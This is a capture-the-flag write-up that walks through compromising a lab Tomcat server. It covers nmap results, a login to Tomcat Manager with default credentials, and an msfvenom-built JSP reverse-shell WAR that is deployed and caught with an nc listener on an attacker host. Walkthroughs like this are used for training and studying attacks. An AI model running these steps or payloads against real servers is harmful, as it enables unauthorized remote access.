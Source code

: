 ```shell

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.54 seconds
```

We found 3 ports. Port 22 could allow us SSH access if we find credentials. Port 8009 contains Apache Jserv and Port 8080 seems to be the most interesting with Tomcat.

### Tomcat Web Enumeration
Lets start enumerating the Tomcat web.

```shell
http://10.10.121.49:8080/
```

If we click on Manager App (Top right of the screen under Server Status), we will be asked for credentials.

### Getting access into Tomcat Web Application Manager using default credentials

Searching on Google, we found a table with the default credentials of Tomcat:

https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown

Trying the default credentials there, we found a valid combination that allowed us to get access:

```shell
tomcat:s3cret
```

# Foothold
### Deploy WAR file created with msfvenom containing a reverse shell to get access
Having access to the Tomcat Web Application Manager, we can create a malicious WAR file containing a reverse shell.

Use msfvenom to create a WAR file containing a reverse shell:

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.113.193 LPORT=8443 -f war -o TotallySafeFile.war
```

After creating the file, start a nc listener:

```shell
nc -lvnp 8443
```

Then upload the TotallySafeFile.war through the Tomcat Web Application Manager (Scroll down to Deploy -> WAR file to deploy -> Browse... -> Select the TotallySafeFile.war -> Click on Deploy)

Now we can click on the /TotallySafeFile link that appeared on the list, it will get us to the following URL, activating our reverse shell:

```shell
http://10.10.121.49:8080/TotallySafeFile/
```
